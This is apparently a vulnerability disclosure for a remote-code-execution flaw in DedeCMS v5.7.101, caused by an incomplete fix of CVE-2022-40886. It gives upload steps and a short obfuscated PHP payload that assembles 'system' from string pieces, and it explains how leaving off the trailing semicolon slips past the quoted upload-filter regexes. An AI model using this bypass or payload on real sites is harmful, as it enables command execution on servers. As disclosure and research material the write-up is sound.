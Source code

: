 # Dedecms-v5.7.101-RCE
## Vulnerability Description
Since CVE-2022-40886 is not fully fixed, Dedecms still has a file upload vulnerability, leading to RCE.

## Vulnerability to reproduce

Log in to the backend of the website.



Upload the file hhh.php, the content of the file is as follows:

```php
<?php $x='sys';$xx='tem';$xxx=$x.$xx;$y='di';$yy='r';$yyy=$y.$yy;$xxx($yyy) ?>
```


Visit `hhh.php`：



## Vulnerability Analysis

In `/dede/file_manage_control.php`, the content of the file we upload will first be checked by `uploadsafe.inc.php`.

In `CVE-2022-40886`, the POC uses `$_COOKIE` to bypass the `$cfg_disable_funs parameter` blacklist. It can be seen that in v5.7.101, `uploads/include/uploadsafe.inc.php` added the limit of `$_COOKIE`, and added some regular matching filtering.


Focus on the regular matching expression added by `uploadsafe.inc.php`.

```php
if(preg_match("#<\?(php|=)#i", " {$content}") == TRUE) {
    if(preg_match("#[$][_0-9a-z]+[\s]*[(][\s\S]*[)][\s]*[;]#iU", " {$content}") == TRUE) {
        $content = dede_htmlspecialchars($content);
        die("DedeCMS提示：当前上传的文件中存在木马！<pre>{$content}</pre>");
    }
    if(preg_match("#[@][$][_0-9a-z]+[\s]*[(][\s\S]*[)]#iU", " {$content}") == TRUE) {
        $content = dede_htmlspecialchars($content);
        die("DedeCMS提示：当前上传的文件中存在木马！<pre>{$content}</pre>");
    }
    if(preg_match("#[`][\s\S]*[`]#i", " {$content}") == TRUE) {
        $content = dede_htmlspecialchars($content);
        die("DedeCMS提示：当前上传的文件中存在后门！<pre>{$content}</pre>");
    }
}
```

Among them, there is the following regular expression, if the match is successful, the process will be terminated and returned `DedeCMS提示：当前上传的文件中存在木马`。

```php
[$][_0-9a-z]+[\s]*[(][\s\S]*[)][\s]*[;]
```
This regular expression prevents a lot of malicious code, but it needs to meet the requirements ending with` ;`, and shell injection can still be performed through `<?php ?>`.
```php
<?php $x='sys';$xx='tem';$xxx=$x.$xx;$y='ca';$yy='lc';$yyy=$y.$yy;$xxx($yyy) ?>
```
